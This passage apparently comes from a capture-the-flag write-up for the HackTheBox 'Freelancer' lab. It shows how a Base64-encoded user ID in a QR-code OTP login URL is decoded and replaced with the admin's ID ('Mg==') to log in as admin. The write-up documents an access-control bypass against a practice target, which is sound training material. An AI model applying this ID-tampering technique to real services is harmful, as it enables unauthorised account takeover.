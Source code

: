 ![](images/2024-06-01_16-26_qrcode_edit.png)

The output contained a `Base64` portion which indicated our `user ID`.

```c
http://freelancer.htb/accounts/login/otp/MTAwMTE=/d2c4caf0ec6277d84766f37b43206a68/
```

```c
┌──(kali㉿kali)-[~]
└─$ echo 'MTAwMTE=' | base64 -d
10011
```

We replaced our `user ID` with the `ID` of `admin` and opened the `URL` in a `new tab` to got access as `admin`.

```c
┌──(kali㉿kali)-[~]
└─$ echo 'Mg==' | base64 -d                            
2
```

```c
http://freelancer.htb/accounts/login/otp/Mg==/d2c4caf0ec6277d84766f37b43206a68/
```

![](images/2024-06-01_16-32_admin_dashboard.png)
